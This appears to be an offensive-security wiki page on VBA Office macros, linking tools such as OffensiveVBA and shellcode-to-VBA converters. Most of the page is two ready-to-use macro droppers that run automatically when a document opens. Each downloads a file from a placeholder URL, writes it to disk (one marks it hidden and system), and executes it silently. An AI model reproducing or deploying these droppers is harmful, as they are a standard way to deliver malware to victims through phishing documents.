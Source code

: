 # ⭕ VBA

{% embed url="https://github.com/S3cur3Th1sSh1t/OffensiveVBA" %}

visual basic for applications is a VB scripting language embedded in applications like MS Office (a macro) and other applications like autoCAD.

with MS Office the VBA code is embedded in a document like a word processor file or spreadsheet.

{% hint style="info" %}
VBA is more powerful than VBS because it can interface directly with the windows API. VBA programs are not restricted in their access to the operating system.
{% endhint %}

## <mark style="color:red;">VBA Download & Execute</mark>

```
Sub AutoOpen()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://<DOMAIN>/<FILE>", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = "C:\Temp\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("M")
gobjBinaryOutputStream.write CreateObject("System.Text.ASCIIEncoding").GetBytes_4("Z")
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

or

```
Sub AutoOpen()
    Auto_Open
End Sub

Sub Auto_Open()
    payloadURL = "<Download URL>"
    Dim req: Set req = CreateObject("Microsoft.XMLHTTP")
    Dim payloadStream: Set payloadStream = CreateObject("Adodb.Stream")
    req.Open "GET", payloadURL, False
    req.Send

    tmpDir = Environ("TEMP")
    exePath = tmpDir + "\trhen.exe"
    With payloadStream
        .Type = 1
        .Open
        .write req.ResponseBody
        .savetofile exePath, 2
    End With
    
    Set WshShell = CreateObject("WScript.Shell")
    cmds = WshShell.Run(exePath, 0, True)
    Set WshShell = Nothing
End Sub
```

## <mark style="color:red;">Shellcode VBA</mark>

{% embed url="https://github.com/iilegacyyii/UsefulScripts/blob/master/ShellcodeToVBA.py" %}

{% embed url="https://github.com/ScriptIdiot/vba_bin_runner" %}

{% embed url="https://github.com/karttoon/trigen" %}
